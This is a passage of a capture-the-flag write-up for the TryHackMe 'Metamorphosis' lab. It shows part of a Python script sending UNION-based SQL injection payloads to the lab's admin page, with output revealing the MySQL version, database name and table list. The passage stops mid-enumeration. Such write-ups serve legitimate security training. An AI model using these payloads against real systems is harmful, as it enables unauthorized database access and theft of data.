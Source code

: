 ```py
        if len(listRequestText) == 2:
            print(listRequestText[1].split('<br />')[0].strip())
        # If it has multiple results, print them all
        else:
            for item in payloadResult:
                print(item.split('<br />')[0].strip())


def main():
    url = 'http://metamorphosis.thm/admin/config.php'
    Exploit = exploit(url)

    payload = '''" UNION ALL SELECT NULL,NULL,"string3"-- -'''
    Exploit.sendRequest(payload)

if __name__ == '__main__':
    main()
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,"string3"-- -
[*] Payload result:
string3
```

**Now, we can confirm the DBMS is really MySQL or not:**
```py
payload = '''" UNION ALL SELECT NULL,NULL,@@version-- -'''
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,@@version-- -
[*] Payload result:
5.7.34-0ubuntu0.18.04.1
```

- DBMS information: MySQL version 5.7.34-0ubuntu0.18.04.1

**Let's enumerate the database!**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,database()-- -
[*] Payload result:
db
```

- Current database: `db`

**List all tables:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,table_name FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"-- -
[*] Payload result:
[...]
users
[...]
```
